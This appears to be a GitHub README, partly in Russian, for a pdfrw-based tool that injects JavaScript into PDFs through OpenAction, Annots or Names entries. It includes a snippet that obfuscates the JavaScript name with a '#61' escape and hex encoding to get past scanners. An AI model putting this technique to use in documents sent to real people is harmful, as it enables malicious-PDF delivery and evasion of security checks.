 # Inject-JavaScript-via-PDFrw-example

- Запуск с параметрами по умолчанию:

`usage: injector.py [-h] -i PATH [--script SCRIPT] [--name NAME] [--output OUT] [--inject_place INJECT_PLACE]

Inject JavaScript in PDF using PDFrw

optional arguments:
  -h, --help            show this help message and exit
  -i PATH               path/to/orig.pdf
  --script SCRIPT       path to file with JS-script; app.alert({cMsg: "Something wrong!", cTitle: "WARNING"}); by default
  --name NAME           script name if injecting in /Names; ErrorScript by default
  --output OUT          output file name; inj.pdf by default
  --inject_place INJECT_PLACE
                        [OpenAction | Annots | Names]; openaction by default`

- Пример действия в ветке Names с обфускацией:

```
names = IndirectPdfDict(**{"J#61vaScript": IndirectPdfDict(
        Names=[PdfString(script_name), IndirectPdfDict(JS=PdfString(script_code), S=PdfName('4A617661536372697074'))]
        )})
```

- Результат:

`/Names (Indirect Dict 1)` --> 

(Indirect Dict 1)

`<</J#61vaScript (Indirect Dict 2)>>` --> 

(Indirect Dict 2)

`<< /Names [(script_name), (Indirect Dict 3)` -->

(Indirect Dict 3)

`<< /JS: (script_code;), /S: /4A617661536372697074>>]>>`
